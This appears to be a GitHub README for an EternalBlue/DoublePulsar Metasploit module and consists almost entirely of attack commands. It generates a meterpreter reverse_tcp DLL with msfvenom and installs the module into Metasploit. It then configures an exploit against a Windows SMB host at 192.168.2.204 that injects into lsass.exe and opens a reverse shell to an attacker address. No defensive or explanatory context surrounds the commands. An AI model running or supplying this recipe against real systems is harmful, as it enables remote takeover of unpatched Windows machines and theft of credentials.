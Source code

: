 # Eternalblue-Doublepulsar-Metasploit
<pre>
`
wine cmd.exe
exit

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.12.110 lport=4444 -f dll -o /root/.wine/drive_c/eternal11.dll

cd /usr/share/metasploit-framework/modules/exploits/windows/smb
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit
mv Eternalblue-Doublepulsar-Metasploit/deps/ eternalblue_doublepulsar.rb ./

service postgresql start
msfconsole
reload_all

use exploit/windows/smb/eternalblue_doublepulsar
set DOUBLEPULSARPATH /usr/share/metasploit-framework/modules/exploits/windows/smb/deps
set ETERNALBLUEPATH /usr/share/metasploit-framework/modules/exploits/windows/smb/deps
set PROCESSINJECT lsass.exe
set TARGETARCHITECTURE  x64
set rhost 192.168.2.204
show targets
set target 8
set payload windows/x64/meterpreter/reverse_tcp
show options
set lhost 192.168.2.202

exploit
`
</pre>



